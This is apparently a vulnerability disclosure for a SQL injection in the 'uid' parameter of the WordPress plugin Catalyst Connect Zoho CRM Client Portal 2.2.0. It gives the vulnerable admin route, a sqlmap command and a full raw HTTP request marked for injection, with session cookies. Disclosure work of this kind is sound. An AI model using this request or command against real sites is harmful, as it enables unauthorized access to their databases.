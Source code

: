### The user query interface of the wordpress plugin **Catalyst Connect Zoho CRM Client Portal** has a sql injection vulnerability.

**Official website**: https://wordpress.org/plugins/catalyst-connect-client-portal/

**Version**：2.2.0

**Route**：/wp-admin/admin.php?page=usersmanagement&action=userdetails&uid=1

**API function**: search user records

**Injection parameters**: uid

**Request method**：GET

**Complete vulnerability trigger related interfaces and parameters**：/wp-admin/admin.php?page=usersmanagement&action=userdetails&uid=1

#### 1.Vulnerability analysis

In the header.php file under the pages/admin/usersManagement/details path in the project, you can see that the uid parameter is passed in through the get method and directly spliced into the SQL query statement to execute the query. There is no filtering, which will cause a SQL injection vulnerability

![image-20250312215743665](assets/image-20250312215743665.png)

The header.php file will be called and executed in userdetails.php, and userdetails.php can be triggered by calling usersManagement.php, so a path can be constructed for SQL injection exploitation

![image-20250312220042579](assets/image-20250312220042579.png)



#### 2.Vulnerability verification and exploitation

Vulnerability reproduction environment: wordpressV6.2.6

After installing the plug-in, you need to add a user information to verify the vulnerability.

You can use sqlmap to verify the vulnerability：python sqlmap.py -r 1.txt --batch --dbms=mysql

The specific injection data packets are as follows (need to replace nocache, security in the URL and cookies in the request header after logging in)

```
GET /wp-admin/admin.php?page=usersmanagement&action=userdetails&uid=1* HTTP/1.1
Host: wp6:84
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.5672.127 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: wordpress_fd878a606c7bb837fe398f83655e9949=admin%7C1742718907%7CTvj4Byozl1ZGVG3GNt4SydMG8k3Uc582JNbQFTybh10%7Cfbbc4c1c7856536bca6dcbcde4910c13559557071af69f132c39f51a812b3e33; PHPSESSID=2quv5qhdualkifntrt4shva7nd; wordpress_test_cookie=WP%20Cookie%20check; wordpress_logged_in_fd878a606c7bb837fe398f83655e9949=admin%7C1742718907%7CTvj4Byozl1ZGVG3GNt4SydMG8k3Uc582JNbQFTybh10%7Ce37bdb2620a388e363b89dbe8674f7d050603ac7543f8721f9adc336ef7ff5d7; wp-settings-time-1=1741510287
Connection: close


```

![image-20250312220306046](assets/image-20250312220306046.png)
